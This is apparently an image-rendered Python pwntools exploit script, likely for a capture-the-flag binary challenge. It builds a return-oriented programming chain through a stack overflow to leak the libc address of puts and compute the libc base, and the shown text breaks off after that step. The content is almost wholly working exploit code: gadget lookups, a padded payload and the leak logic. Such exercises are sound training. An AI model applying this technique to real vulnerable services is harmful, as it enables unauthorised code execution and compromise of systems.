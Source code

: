 ```
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
    # Arch:     amd64-64-little
    # RELRO:    Partial RELRO
    # Stack:    No canary found
    # NX:       NX enabled
    # PIE:      No PIE (0x400000)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())


def log_print(*msg):
    log.info(" ".join(map(str,msg)))


def int2byte(x: int):
    return x.to_bytes(exe.bytes, "little")


def wait_for_debugger(io):
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]

io = start()
wait_for_debugger(io)

writable_addr = 0x0000000000404800

rop_1 = flat({
    32: b'00000000',
    32+8: [
        pop_rdi_ret_addr,
        exe.got['puts'],
        exe.sym["puts"],
        exe.sym["vuln"]
    ]
})

log_print("pop rdi ret",hex(pop_rdi_ret_addr))

io.sendafter(b"hi!\n",rop_1)
puts_addr = int.from_bytes(io.recvuntil(b'\n',drop=True),"little")
log_print("puts addr",hex(puts_addr))
libc_base_addr = puts_addr - libc.sym["puts"]
```